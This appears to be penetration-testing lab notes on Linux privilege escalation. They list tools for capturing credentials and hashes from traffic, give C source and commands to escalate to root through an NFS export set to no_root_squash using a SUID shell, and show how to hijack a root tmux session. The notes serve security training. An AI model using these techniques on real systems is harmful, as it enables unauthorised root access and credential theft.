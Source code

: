 Miscellaneous Techniques

## Passive Traffic Capture

The following tools are useful for capturing clear text creds, Net-NTLMv2, SMBv2 and/or Kerberos hashes

- tcpdump
- [net-creds](https://github.com/DanMcInerney/net-creds)
- [PCredz](https://github.com/lgandx/PCredz)


### Weak NFS Privileges

- #NFS operates on TCP/UDP port 2049
- #showmount -e TARGET_IP remotely lists NSF accessible mounts

**NFS Options to Set**

Options can be verified in /etc/exports
- root_squash: files created and uploaded by root will be owned by nfsnobody (an unprivileged user). This prevents an attacker from uploading binaries with the SUID bit set
- no_root_squash:  allows for the creation of malicious scripts with the SUID bit set


To demonstrate:
1 - With local root, create a binary that executes /bin/sh
2 - Mount the /tmp directory locally
3 - Copy the root-owned binary 
4 - Set the SUID bit

**1. Create /bin/sh executable**

```python
cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

Compile shell.c
```python
htb@NIX02:/tmp$ gcc shell.c -o shell
```

**Steps 2 - 4**

```python
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

```python
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

Terminal multiplexers like tmux, terminator are used to all multiple terminal sessions in a single console window.
A tmux window can be detached from a session and hijacked if that session is running/ran with elevated permissions.
The following is an example:

**Create tmux directory with a group called 'dev'**
```python
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

The goal is to compromise a user in dev group and attach to the tmux session.
Verify any running tmux processes
==In this example the running process will be **tmux -S /shareds new -s debugsess**==
```python
 ps aux | grep tmux
```

**Attach to the tmux session and confirm root privileges**
```python
tmux -S /shareds
```
```python
id
```


